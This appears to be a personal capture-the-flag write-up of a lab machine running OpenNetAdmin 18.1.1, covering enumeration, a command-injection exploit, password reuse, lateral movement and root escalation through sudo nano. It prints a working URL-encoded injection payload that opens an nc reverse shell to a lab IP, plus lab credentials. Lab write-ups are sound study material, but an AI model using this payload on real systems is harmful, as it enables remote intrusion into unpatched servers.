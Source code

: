 # Machine #[NUMBER] [NAME]  


## Nmap Results  
  <img src="https://nmap.org/images/nmap-logo-256x256.png">   

* Just a web service and ssh.



<br/><br/>

## Banner Grabbing of Services  
 * Didn't find much


<br/><br/>

## Searchsploit
  <img src="https://www.offensive-security.com/wp-content/uploads/2020/05/SearchSploit-1.png" width=400 height=200>   



<br/><br/>  

## Gobustering Stuff  

  <img src="https://cdn.akamai.steamstatic.com/steam/apps/1092880/capsule_616x353.jpg?t=1605640630" width=400 height=200>  

* In this path `http://10.129.170.143/artwork/` found a website.
* I will try and gobuster the previous path see what I get.

<br/><br/>


## Thinking Out Loud   

  <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQr4hzX6KoRN5PjPJjy8QC43K0T-CoXZHawDIxG4jCa9aMD1K8Vl3vhpG2a2OVbiy-i93c&usqp=CAU" width=200 height=200>  

* The root opens the default page for Apache.  
* In the website I found "Arcwork" I found a form that when the button is pressed in it it sends a post request but without the input which I think means it's as useful as a bag of chips to break the website.  
* The form in `/sierra` sends parameters in the post which means it might be exploitable in a way MAYBE. In this path `/sierra/contact_process.php` the post takes place.  
* Emails I found  
  * contact@sierracompany.com (In the sierra website).
  * hello@mydomain.com (Arcwork website).  
* In the last website `/music` I found something interesting when I pressed "login" it opened this url `http://10.129.170.143/ona/` which opened something weird called openNetAdmin which seems like it's obviously key to solving the machine.
* Found a dns domain. I'm gonna try and put it in hosts.
* OpenNetAdmin version ==> OpenNetAdmin - v18.1.1.
* I was able to login as "admin/admin" in the opennetadmin.
* It seems that the exploit I found for this version of openNetAdmin takes advantage of the "IP Calculator".  

xajax=window_submit&xajaxr=1643382750871&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.74%204444%20%3E%2Ftmp%2Ff&xajaxargs[]=ping%22%20%22http%3A%2F%2F10.129.170.143%2Fona%2F  

* Found a credential for the database 
```console
 'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!', // turns out this is jimmy's password
        'db_database' => 'ona_default',
        'db_debug' => false,
```

* Found another password for jimmy `Revealed` it was hashed with sha 512 and I was able to crack it easily anyway what do I need it for?  

* `/etc/sudoers.d/joanna:joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv`  


```
lrwxrwxrwx 1 root root 32 Nov 22  2019 /etc/apache2/sites-enabled/internal.conf -> ../sites-available/internal.conf                                                 
    ServerName internal.openadmin.htb
lrwxrwxrwx 1 root root 33 Nov 22  2019 /etc/apache2/sites-enabled/openadmin.conf -> ../sites-available/openadmin.conf                                               
        ServerName openadmin.htb
```  

* I was able to get joanna's key by executing this 
```console
curl -X POST -F 'username=jimmy' -F 'password=Revealed' -F 'login=' http://localhost:52846/main.php
```
But I'm not able to use the passphrase yettt which is frustrating and a reverse shell is not working.

<br/><br/>



## How Did I Solve the Machine 

   <img src="https://images.lifesizecustomcutouts.com/image/cache/catalog/febProds21/SP000081-500x500.png" width=200 height=200>   

1. After enumerating the machine I found a webpage that is an ona with a vulnerable version to an exploit that was easily implemented so I didn it and got www-data.
2. Then I got jimmy with more enumeration when I found this password in some file written in plain text.
3. This left me with trying to priv esc to joanna (horizontally).
4. I found an internal webserver on a weird port and realizing that joanna was the one executing it I manipulated the ssh files instead of brute forcing the passphrase for her own private key and got her.
5. After that there was an easy way of getting a rev shell with root when nano is executed with sudo.   

## Where I Got Stuck?  
* When I was trying to priv esc to joanna.
* It took me time to find the internal web server.
* And when I found it I kept trying to spawn a reverse shell but it didn't work. Still dunno why.

## What Did I learn from this Machine?  

* OpenNetAdmin  
  <blockquote>
  OpenNetAdmin is a Network Management application that provides a database of managed inventory of IPs, subnets, and hosts in a network with a centralized AJAX web interface. The application is an Opensource written in PHP; you can view the source code on GitHub “ONA Project.”
  </blockquote>



## Writeups   

### ippsec  

* So first he tried to look for a "robot.txt" file because it could lead to something if it existed.
* He tried to check if the backend was php by trying "index.php" if "index.html" existed.
* Looked at the source code of the websites he found to see if he can find the software that is used to make the website.
* He checked the source of the page to check what is the type of the content management system that is being used.  
* Carousel is a popular wordpress plugin.  
* He made an HTML page with `python -m http.server 80` to run the exploit that is expecting us to "make an html page".  
* Don't jump straight into a dangerous command with command injection, try a simple, useless one first.  
* We can test for a firewall if we `nc [MY IP] [PORT]` we can check if a firewall is blocking us.   

### 0xdf's Writeup  

* He used a webshell and then made a rev shell.

<!-- tagsss -->